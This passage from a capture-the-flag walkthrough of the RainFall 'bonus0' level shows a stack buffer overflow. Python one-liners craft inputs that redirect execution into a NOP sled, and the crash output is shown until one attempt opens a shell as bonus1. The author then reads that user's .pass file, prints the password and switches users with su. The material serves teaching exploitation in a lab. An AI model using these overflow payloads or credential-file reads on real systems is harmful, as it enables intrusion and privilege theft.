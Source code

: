 We try again:
```bash
bonus0@RainFall:~$ (cat /tmp/first; cat /tmp/second; cat) | ./bonus0
 - 
 - 
��������������������AAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
whoami
Illegal instruction (core dumped)
```

Now, with the `NOP` instructions, we can shift the address to be in the `NOP` instructions, and the shellcode will be executed.
If we add 64 octets at the address of the buffer:
`0xbfffe680 + 64 = 0xbfffe6c0 = \xc0\xe6\xff\xbf`
```bash
python -c 'print "A" * 9 + "\xc0\xe6\xff\xbf" + "A" * 7' > /tmp/second
```
```bash
bonus0@RainFall:~$ (cat /tmp/first; cat /tmp/second; cat) | ./bonus0
 - 
 - 
��������������������AAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
whoami
Segmentation fault (core dumped)
```

If we add 86 octets at the address of the buffer:
`0xbfffe680 + 86 = 0xbfffe6d0 = \xd0\xe6\xff\xbf`
```bash
python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "A" * 7' > /tmp/second
```
```bash
bonus0@RainFall:~$ (cat /tmp/first; cat /tmp/second; cat) | ./bonus0
 - 
 - 
��������������������AAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
whoami
bonus1
```

You opened a shell as the `bonus1` user !

```bash
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

Congratulations!
We can now connect to the `bonus1` user with this password.
```bash
bonus0@RainFall:~$ su bonus1
Password:
bonus1@RainFall:~$
```

Notes:
